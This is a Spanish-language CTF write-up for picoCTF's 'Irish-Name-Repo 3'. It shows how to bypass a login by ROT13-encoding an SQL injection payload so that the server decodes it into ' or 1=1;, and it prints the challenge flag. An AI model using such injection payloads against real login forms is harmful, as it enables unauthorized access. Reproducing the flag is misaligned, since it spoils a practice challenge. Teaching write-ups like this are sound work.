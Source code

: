 ## Nombre del reto:
Irish-Name-Repo 3

## Objetivo:
There is a secure website running at https://jupiter.challenges.picoctf.org/problem/40742/ (link) or http://jupiter.challenges.picoctf.org:40742. Try to see if you can login as admin!

## Solución:
Intentamos con cualquier password pero nos damos cuenta que el password esta encirptado

password: password
SQL query: SELECT * FROM admin where password = 'cnffjbeq'

si inyectamos la sentencia ' or 1= =1;' nos la encripta en root 13, entonces solo
convertimos esa sentencia en root13 y nos da como resultado:
' be 1= =1;
con la cual al hacer la convercion a root 13 ahora si estamos inyectando la sentencia 
' or 1= =1;'

password: ' be 1= =1;
SQL query: SELECT * FROM admin where password = '' or 1= =1;'
*nota: los = son juntos**
Logged in!

Your flag is: ==picoCTF{3v3n_m0r3_SQL_4424e7af}==

## Referencias: